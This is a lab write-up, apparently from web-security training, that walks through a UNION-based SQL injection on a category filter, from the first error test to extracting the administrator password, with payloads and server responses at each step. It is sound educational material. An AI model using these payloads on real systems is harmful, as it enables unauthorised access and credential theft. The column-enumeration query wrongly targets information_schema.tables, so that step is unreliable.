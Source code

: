 # SQL injection, listing the database contents on non-Oracle databases

### Goal:
`Log in to the application as the administrator user`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The target is using a non-Oracle database
### Note: Table names, column names, and the password contain randomized characters. If the lab for any reason, these names will be regenerated.
<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data output with UNION attack</ins>**

We know that the database is either MySQL or Microsoft, which share similar syntax. We need to use this syntax for a successful attack.<br><br>

category='UNION SELECT NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL--

`200`

This means that the query outputs two values.
<br><br>

category='UNION SELECT 'a','b'--

`200`

This means that both values are strings. Knowing this, we can use either to output the desired data.
<br><br>

**<ins>Step 3: Enumerate database with UNION attack</ins>**

category='UNION SELECT @@version,NULL--

`500 server error`

This means that the database is not using Microsoft or MySQL.<br><br>

category='UNION SELECT version(),NULL--

`Postgre SQL 12.16`

Now we know what syntax to use to exfiltrate data.<br><br>

 **<ins>Step 4: Enumerate database structure with UNION attack</ins>**

 category='UNION SELECT table_name,NULL from information_schema.tables--

 `users_xxxxxx`

This table likely contains the information we're looking for, so we'll look at its columns.<br><br>

category=' UNION SELECT column_name,NULL from information_schema.tables WHERE table_name='users_xxxxxx'--

`username_xxxxxx, password_xxxxxx`<br><br>

**<ins>Step 5: Exfiltrate the data</ins>**

category='UNION SELECT password_xxxxxx,NULL FROM users_xxxxxx WHERE username_xxxxxx='administrator'--

`<password>`

Using this password with the username administrator will successfully log us in as the admin.
